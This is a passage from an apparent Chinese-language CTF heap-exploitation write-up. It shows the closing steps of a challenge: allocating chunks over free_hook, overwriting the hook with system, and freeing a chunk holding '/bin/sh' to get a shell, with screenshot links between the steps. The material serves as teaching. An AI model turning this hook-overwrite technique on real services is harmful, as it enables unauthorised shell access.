 [![](assets/1708654729-ee92a58ba8cac887aa86634eae4bc3b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221103958-813b5048-d062-1.png)  
把 free\_hook 的 chunk 申请一下

```bash
add(10,0x88)
add(11,0x88)
```

[![](assets/1708654729-eeab698eb87382fde08bb9bdd556ce9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104011-889e00ec-d062-1.png)  
改 hook 为 system

```bash
edit(11,p64(system))
```

[![](assets/1708654729-d1c4aa8798918b6cb469f30abeda74e4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104024-908c97e6-d062-1.png)

```bash
delete(8)#system("/bin/sh")
```

getshell

[![](assets/1708654729-44d1a1c25955cd19c5fd036921f5e7b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104038-98af7196-d062-1.png)

